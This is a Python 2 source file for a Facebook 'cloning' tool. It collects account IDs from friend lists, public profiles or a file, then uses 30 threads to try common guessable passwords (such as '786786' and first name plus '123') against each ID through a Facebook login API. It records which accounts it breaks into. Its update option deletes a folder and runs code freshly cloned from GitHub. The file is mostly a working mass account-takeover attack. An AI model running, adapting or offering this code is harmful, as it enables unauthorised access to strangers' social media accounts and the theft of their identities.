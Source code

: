 # HS#!/usr/bin/python2
#coding=utf-8

import os,sys,time,datetime,random,hashlib,re,threading,json,getpass,urllib,cookielib
from multiprocessing.pool import ThreadPool
try:
    import requests
except ImportError:
    os.system('pip2 install requests')
try:
    import mechanize
except ImportError:
    os.system('pip2 install mechanize')
    os.system('python2 B4.py')

from requests.exceptions import ConnectionError
from mechanize import Browser

#### browser ####
reload(sys)
sys.setdefaultencoding('utf8')
br = mechanize.Browser()
br.set_handle_robots(False)
br.set_handle_refresh(mechanize._http.HTTPRefreshProcessor(), max_time=1)
br.addheaders = [('User-Agent','Opera/9.80 (Android; Opera Mini/32.0.2254/85. U; id) Presto/2.12.423 Version/12.16')]

#### colours ####
B='\033[1;94m'
R='\033[1;91m'
G='\033[1;92m'
W='\033[1;97m'
S='\033[1;96m'
P='\033[1;95m'
Y='\033[1;93m'

#### exit ####
def exb():
	print (R + 'Exit')
	os.sys.exit()

#### clear ####
def cb():
    os.system('clear')

#### time sleep ####
def t():
    time.sleep(1)
def t1():
    time.sleep(0.01)

#### print std ####
def psb(z):
	for e in z + '\n':
		sys.stdout.write(e)
		sys.stdout.flush()
		t1()

#### token remove ####
def trb():
    os.system('rm -rf token.txt')

##### LOGO #####
logo='''
\033[1;94m ┈┈┈┈╱▔▔▔▔╲┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈╱▔▔▔▔╲┈┈┈┈
\033[1;94m ┈┈┈▕▕H4 S4▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕H4 S4▏▏┈┈┈
\033[1;94m ┈┈┈▕▕▂╱╲▂▏▏┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈▕▕▂╱╲▂▏▏┈┈┈
\033[1;94m ┈┈┈┈╲┊┊┊┊╱┈┈┈┈\033[1;94mShabirBaloch.\033[1;91m┈┈┈┈╲┊┊┊┊╱┈┈┈┈
\033[1;96m ┈┈┈┈▕╲▂▂╱▏┈┈┈┈☞☞☞☞☞☞\033[1;91m☜☜☜☜☜┈┈┈┈▕╲▂▂╱▏┈┈┈┈
\033[1;96m ╱▔▔▔▔┊┊┊┊▔▔▔▔╲☞☞☞☞☞☞\033[1;91m☜☜☜☜☜╱▔▔▔▔┊┊┊┊▔▔▔▔╲
\033[1;96m................\033[1;93mHAMIDUL \033[1;91m...............
\033[1;96m................\033[1;93m✬🄵🄰🄲🄴🄱🄾🄾🄺✬\033[1;91m..............

\033[1;96m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░

\033[1;91m☞ Auther     : H4_BALOCH_S4_MASTER
\033[1;92m☞ WhatsApp   : 01905481405
\033[1;95m☞ Facebook   : https://www.facebook.com/profile.php?id=100074299117081

\033[1;93m░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░░
                                '''
back=0
successfull=[]
checkpoint=[]
oks=[]
cps=[]
id=[]

#### login ####
def login():
	cb()
	try:
		tb=open('token.txt', 'r')
		menu() 
	except (KeyError,IOError):
		cb()
		print (logo)
		print (R + '◈━━━━▷' + S + ' Login With ✬🄵🄰🄲🄴🄱🄾🄾🄺✬ ' + R + '◁━━━━◈')
		print
		id=raw_input(S + '[☆] ' + S + 'Email: ' + G +'')
		pwd=getpass.getpass(S + '[♡] ' + R + 'Password : ')
		data = urllib.urlopen("https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email="+(id)+"&locale=en_US&password="+(pwd)+"&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6")
		z=json.load(data)
		if 'access_token' in z:
		    st = open("token.txt", "w")
		    st.write(z["access_token"])
		    st.close()
		    print (S + '[☆]' + Y + ' Login successfull 100% ✓')
		    os.system('xdg-open https://www.facebook.com/profile.php?id=100074299117081')
		    menu()
		else:
		    if "www.facebook.com" in z["error_msg"]:
		        print (R + 'Account has a checkpoint !')
		        t()
		        login()
		    else:
		        print (R + 'number/user id/ password is wrong !')
		        trb()
		        t()
		        login()
def menu():
	cb()
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + 'Token Invalid !')
		trb()
		t()
		login()
	try:
		otw=requests.get('https://graph.facebook.com/me?access_token='+tb)
		a=json.loads(otw.text)
	except KeyError:
		print (G + 'Account has a checkpoint !')
		trb()
		t()
		login()
	except requests.exceptions.ConnectionError:
		print (W + 'No internet connection !')
		t()
		exb()
	cb()
	print (logo)
	print (S + '[☆] ' + G + 'ID Name: ' + R + a['name'])
	print (S + '[☆] ' + G + 'User ID: ' + R + a['id'])
	print
	print (S + 50*'-')
	print
	print (S + '[' + P + '☞1' + S + ']' + S + ' Fast Cloning New Update')
	print (S + '[' + P + '☞2' + S + ']' + S + ' Update H4_BALOCH Tool')
	print (S + '[' + P + '☞3' + S + ']' + S + ' H4_BALOCH WhatsApp Group')
	print (S + '[' + Y + '☞4' + S + ']' + G + ' Log Out')
	print (S + '[' + Y + '☞0' + S + ']' + R + ' Exit')
	print
	print (S + 50*'-')
	print
	mb()


def mb():
	bm=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bm =='':
		print (R + 'Select a valid option !')
		mb()
	elif bm =='1':
		pak()
	elif bm =='2':
	    os.system('rm -rf $HOME/H4_BALOCH')
	    os.system('cd $HOME && git clone https://github.com/MDHAMIDUL30')
	    cb()
	    print (logo)
	    psb('☆10%')
	    psb('☆☆20%')
	    psb('☆☆☆30%')
	    psb('☆☆☆☆40%')
	    psb('☆☆☆☆☆50%')
	    psb('☆☆☆☆☆☆60%')
	    psb('☆☆☆☆☆☆☆70%')
	    psb('☆☆☆☆☆☆☆☆80%')
	    psb('☆☆☆☆☆☆☆☆☆90%')
	    psb('☆☆☆☆☆☆☆☆☆☆100%')
	    psb('Frends login new Account✓')
	    psb('WhatsApp Num 03232132362✓')
	    psb('WellCome To H4_BALOCH')
	    psb('Congratulations H4_BALOCH Tool Has Been Updated Successfully')
	    psb('🔓User Name☆ 786786✓')
	    psb('🔓Password ☆ 786786✓')
	    psb('Subscrib My Youtube Channel LX HABIB ✓')
	    psb('Please Login Again')
	    time.sleep(2)
	    os.system('cd $HOME/H4_BALOCH && python2 H4.py')
	elif bm =='3':
	    os.system('xdg-open https://www.facebook.com/profile.php?id=100074299117081')
	    menu()
	elif bm =='4':
		psb('Token Has Been Removed')
		trb()
		t()
		exb()
	elif bm =='0':
	    exb()
	else:
		print (R+'Fill in correctly !')
		mb()


def pak():
	global tb
	try:
		tb=open('token.txt','r').read()
	except IOError:
		print (R + ' Invalid Token !')
		trb()
		t()
		login()
	cb()
	print (logo)
	print (S + '[' + P + '☞1' + S + ']' + P + ' Clone With Friend List')
	print (S + '[' + P + '☞2' + S + ']' + P + ' Clone From Public Account')
	print (S + '[' + Y + '☞3' + S + ']' + Y + ' Clone From File')
	print (S + '[' + R + '☞0' + S + ']' + R + ' Back')
	print
	print (S + 50*'-')
	print
	pb()

def pb():
	bp=raw_input(W + ' ✬🄵🄰🄲🄴🄱🄾🄾🄺✬   ')
	if bp =='':
		print (R + 'Select a valid option !')
		pb()
	elif bp =='1':
		cb()
		print (logo)
		r=requests.get('https://graph.facebook.com/me/friends?access_token='+tb)
		z=json.loads(r.text)
		for s in z['data']:
			id.append(s['id'])
	elif bp=='2':
		cb()
		print (logo)
		idt=raw_input(S + '[☆] ' + G + 'Put Public User ID/User Name: ' + W + '')
		cb()
		print (logo)
		try:
			jok=requests.get('https://graph.facebook.com/'+idt+'?access_token='+tb)
			op=json.loads(jok.text)
			psb(S + '[☆]' + G + ' Account  Name: ' + W + op['name'])
		except KeyError:
			print (R + ' ID not found !')
			raw_input(R + ' Back')
			pak()
		r=requests.get('https://graph.facebook.com/'+idt+'/friends?access_token='+tb)
		z=json.loads(r.text)
		for i in z['data']:
			id.append(i['id'])
	elif bp =='3':
		cb()
		print (logo)
		try:
			idlist=raw_input(S + '[☆] ' + R + 'Enter File Path: ' + G + '')
			for line in open(idlist,'r').readlines():
				id.append(line.strip())
		except IOError:
			print (R + ' File Not Fount !')
			raw_input(R + ' Back')
			pak()
	elif bp =='0':
		menu()
	else:
		print (R + ' Select a valid option !')
		pb()
	print (S + '[☆]' + P + ' Total Friends: ' + W + str(len(id)))
	psb(S + '[☆]' + S + ' To stop process  click on CTRL ~ Z')
	print
	print (S + 50*'-')
	print
	def main(arg):
		global cps, oks
		user=arg
		try:
			h=requests.get('https://graph.facebook.com/'+user+'/?access_token='+tb)
			j=json.loads(h.text)
			ps1=('786786')
			dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps1)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			k=json.load(dt)
			if 'www.facebook.com' in k['error_msg']:
			    print(S+'[CP] ♡ '+user+' ♡ '+ps1)
			    cps.append(user+ps1)
			else:
			    if 'access_token' in k:
			        print (G+'[OK] ♡ '+user+' ♡ '+ps1)
			        oks.append(user+ps1)
			    else:
			        ps2=(j['first_name']+'123')
			        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps2)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			        k=json.load(dt)
			        if 'www.facebook.com' in k['error_msg']:
			            print(S+'[CP] ♡ '+user+' ♡ '+ps2)
			            cps.append(user+ps2)
			        else:
			            if 'access_token' in k:
			                print(G+'[OK] ♡ '+user+' ♡ '+ps2)
			                oks.append(user+ps2)
			            else:
			                ps3=(j['first_name']+'786')
			                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps3)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                k=json.load(dt)
			                if 'www.facebook.com' in k['error_msg']:
			                    print(S+'[CP] ♡ '+user+' ♡ '+ps3)
			                    cps.append(user+ps3)
			                else:
			                    if 'access_token' in k:
			                        print(G+'[OK] ♡ '+user+' ♡ '+ps3)
			                        oks.append(user+ps3)
			                    else:
			                        ps4=(j['first_name']+'12345')
			                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps4)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                        k=json.load(dt)
			                        if 'www.facebook.com' in k['error_msg']:
			                            print(S+'[CP] ♡ '+user+' ♡ '+ps4)
			                            cps.append(user+ps4)
			                        else:
			                            if 'access_token' in k:
			                                print(G+'[OK] ♡ '+user+' ♡ '+ps4)
			                                oks.append(user+ps4)
			                            else:
			                                ps5=('Pakistan')
			                                dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps5)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                k=json.load(dt)
			                                if 'www.facebook.com' in k['error_msg']:
			                                    print(S+'[CP] ♡ '+user+' ♡ '+ps5)
			                                    cps.append(user+ps5)
			                                else:
			                                    if 'access_token' in k:
			                                        print(G+'[OK] ♡ '+user+' ♡ '+ps5)
			                                        oks.append(user+ps5)
			                                    else:
			                                        ps6=(j['first_name']+'khan')
			                                        dt=urllib.urlopen('https://b-api.facebook.com/method/auth.login?access_token=237759909591655%25257C0f140aabedfb65ac27a739ed1a2263b1&format=json&sdk_version=2&email='+(user)+'&locale=en_US&password='+(ps6)+'&sdk=ios&generate_session_cookies=1&sig=3f555f99fb61fcd7aa0c44f58f522ef6')
			                                        k=json.load(dt)
			                                        if 'www.facebook.com' in k['error_msg']:
			                                            print(S+'[CP] ♡ '+user+' ♡ '+ps6)
			                                            cps.append(user+ps6)
			                                        else:
			                                            if 'access_token' in k:
			                                                print(G+'[OK] ♡ '+user+' ♡ '+ps6)
			                                                oks.append(user+ps6)
		except:
			pass
	p=ThreadPool(30)
	p.map(main, id)
	print
	print(S+50*'-')
	print
	print(S+'Process has been completed CP ID Open After 7 Days ')
	print(Y+'Total '+G+'OK'+S+'/'+P+'CP'+S+' = '+G+str(len(oks))+S+'/'+R+str(len(cps)))
	print(S+'Hacks ar')     
	print
	raw_input(R + 'Back')
	os.system('python2 H4.py')
if __name__=='__main__':
    login()

